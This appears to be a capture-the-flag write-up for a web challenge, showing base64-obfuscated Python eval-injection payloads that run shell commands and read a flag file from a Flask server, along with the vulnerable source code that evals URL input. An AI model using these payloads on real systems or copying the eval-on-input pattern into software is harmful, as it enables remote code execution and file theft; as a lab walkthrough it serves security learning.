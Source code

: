 # Streamlining portal NG

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is
on http://user-info-ng.mysterious-delivery.tcc.

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

---

This challenge is a follow-up to [Streamlining portal](../01-streamlining-portal/README.md).

Obviously, the payload from the original challenge doesn't work here. It returns `404 NOT FOUND` so there is
some kind of new protection.

The first idea was to obfuscate my original payload (`__import__('os').popen('cat /app/FLAG/flag.txt').read()`):

```
/hello/"+eval(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2F0IC9hcHAvRkxBRy9mbGFnLnR4dCcpLnJlYWQoKQ=='.encode('ascii')))#

> Hello
```

It returns empty string. No error, just empty string. This obfuscated payload works perfectly fine for the original
challenge

After some tries and errors, I changed the payload to `open("/app/FLAG/flag.txt", "r").read()`:

```
/hello/"+eval(__import__('base64').b64decode('b3BlbigiL2FwcC9GTEFHL2ZsYWcudHh0IiwgInIiKS5yZWFkKCk='.encode('ascii')))#

> Hello FLAG{OONU-Pm7V-BK3s-YftK}
```

---

## Bonus: Reading the source code

Read `/app/app.py`:

```python
from flask import Flask, Blueprint, redirect, render_template, abort

bp = Blueprint("app", __name__)


def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app


@bp.route('hello/<userstring>')
def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)


@bp.route('')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```